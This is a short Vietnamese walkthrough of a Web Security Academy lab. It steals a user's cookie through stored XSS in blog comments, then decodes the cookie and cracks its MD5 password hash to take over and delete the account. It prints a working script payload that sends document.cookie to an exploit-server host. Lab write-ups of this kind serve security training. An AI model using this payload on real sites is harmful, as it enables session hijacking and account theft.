 Yêu cầu: Trong bài này Password được hash và lưu trong cookie. Có một lỗ hổng XSS ở phần bình luận. Lấy cookie tk carlos để có password rồi xoá user này.
<br> Tương tự như các bài trước, cookie ở bài này vẫn ở dưới dạng username + password được mã hoá MD5
![image](https://user-images.githubusercontent.com/62832067/156875753-30d13691-be5a-4a70-b21d-49613fb53349.png)

<br> Do đã biết ở phần comment post có XSS nên ta truyền script vào để lấy được logs user cookie trên server 

```<script>document.location='//exploit-acdb1fb01fd4bd38c0ab306301e1009c.web-security-academy.net/'+document.cookie</script>```
![image](https://user-images.githubusercontent.com/62832067/156875939-ccad07b2-248b-4d60-a6b3-e21decacd3aa.png)
![image](https://user-images.githubusercontent.com/62832067/156875940-dec98b74-dbee-45ee-9f17-b29357a7df77.png)
<br> Decode Cookie ta được ![image](https://user-images.githubusercontent.com/62832067/156875996-b3a6f8de-80e6-46c7-843d-8abd0eef67ef.png)
<br> Tiếp tục decode password MD5 -> ```onceuponatime``` 
![image](https://user-images.githubusercontent.com/62832067/156876018-eb922eaf-5252-450e-941f-7a9c4c989f76.png)
![image](https://user-images.githubusercontent.com/62832067/156876057-eaa98890-8402-4fbe-b223-41ccee6f2ea3.png)




